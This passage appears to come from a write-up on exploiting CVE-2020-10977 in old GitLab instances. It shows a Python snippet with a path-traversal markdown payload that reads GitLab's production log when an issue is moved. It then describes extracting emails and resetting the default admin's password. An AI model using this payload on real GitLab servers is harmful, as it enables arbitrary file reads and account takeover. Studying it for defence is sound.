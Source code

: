 ```python
>>> issue.description
'![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../var/log/gitlab/gitlab-rails/production.log)'
>>> issue.move(p2.id)
```

[![burp-extract-email.png](/assets/images/exploiting-cve-2020-10977-on-old-gitlab-ce-ee/burp-extract-email.png)](/assets/images/exploiting-cve-2020-10977-on-old-gitlab-ce-ee/burp-extract-email.png)

As an alternative, you can reset builtin admin's password if his email is left default `admin@example.com`.

Next, I will trigger a password reset for a discovered user via `/users/password/new` endpoint.
